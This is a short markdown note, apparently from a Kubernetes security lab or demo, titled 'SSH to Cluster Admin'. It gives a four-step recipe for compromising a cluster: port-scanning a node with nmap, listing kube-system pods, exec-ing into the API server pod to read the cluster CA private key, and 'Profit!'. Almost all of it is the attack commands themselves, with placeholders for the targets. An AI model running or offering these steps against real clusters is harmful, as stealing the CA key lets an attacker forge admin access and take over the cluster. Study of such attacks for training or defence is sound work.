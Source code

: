 # SSH to Cluster Admin

### Compromising the cluster

1. Scan all ports on node `nmap [CLUSTERIP] -p-`
2. Get list of pods in kube-system namespace `kubectl get po -n kube-system` 
3. Grab the certificate `kubectl -n kube-system exec [API_SERVER_POD] -- cat /etc/kubernetes/pki/ca.key`
4. Profit!
